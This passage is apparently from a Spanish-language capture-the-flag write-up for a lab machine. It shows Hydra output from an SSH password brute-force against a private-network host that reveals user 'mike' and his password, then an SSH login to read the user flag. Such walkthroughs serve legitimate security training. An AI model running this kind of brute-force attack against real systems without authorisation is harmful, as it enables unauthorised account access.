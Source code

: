 Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-21 04:29:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 841 login tries (l:29/p:29), ~14 tries per task
[DATA] attacking ssh://192.168.1.146:22/
[22][ssh] host: 192.168.1.146   login: mike   password: 6G3UCx6aH6UYvJ6m
[STATUS] 290.00 tries/min, 290 tries in 00:01h, 584 to do in 00:03h, 31 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Con esto veremos que ha funcionado y habremos descubierto las credenciales del usuario `mike`, por lo que vamos a conectarnos por `SSH`.

### SSH

```shell
ssh mike@<IP>
```

Metemos como contraseña `6G3UCx6aH6UYvJ6m` y veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```

                                                                                                                                                                                                                    
     QQQQQQQQQ                         iiii                      kkkkkkkk                 333333333333333   
   QQ:::::::::QQ                      i::::i                     k::::::k                3:::::::::::::::33 
 QQ:::::::::::::QQ                     iiii                      k::::::k                3::::::33333::::::3
Q:::::::QQQ:::::::Q                                              k::::::k                3333333     3:::::3
Q::::::O   Q::::::Quuuuuu    uuuuuu  iiiiiii     cccccccccccccccc k:::::k    kkkkkkk                 3:::::3
Q:::::O     Q:::::Qu::::u    u::::u  i:::::i   cc:::::::::::::::c k:::::k   k:::::k                  3:::::3
Q:::::O     Q:::::Qu::::u    u::::u   i::::i  c:::::::::::::::::c k:::::k  k:::::k           33333333:::::3 
Q:::::O     Q:::::Qu::::u    u::::u   i::::i c:::::::cccccc:::::c k:::::k k:::::k            3:::::::::::3  
Q:::::O     Q:::::Qu::::u    u::::u   i::::i c::::::c     ccccccc k::::::k:::::k             33333333:::::3 
Q:::::O     Q:::::Qu::::u    u::::u   i::::i c:::::c              k:::::::::::k                      3:::::3
Q:::::O  QQQQ:::::Qu::::u    u::::u   i::::i c:::::c              k:::::::::::k                      3:::::3
Q::::::O Q::::::::Qu:::::uuuu:::::u   i::::i c::::::c     ccccccc k::::::k:::::k                     3:::::3
Q:::::::QQ::::::::Qu:::::::::::::::uui::::::ic:::::::cccccc:::::ck::::::k k:::::k        3333333     3:::::3
 QQ::::::::::::::Q  u:::::::::::::::ui::::::i c:::::::::::::::::ck::::::k  k:::::k       3::::::33333::::::3
   QQ:::::::::::Q    uu::::::::uu:::ui::::::i  cc:::::::::::::::ck::::::k   k:::::k      3:::::::::::::::33 
     QQQQQQQQ::::QQ    uuuuuuuu  uuuuiiiiiiii    cccccccccccccccckkkkkkkk    kkkkkkk      333333333333333   
```
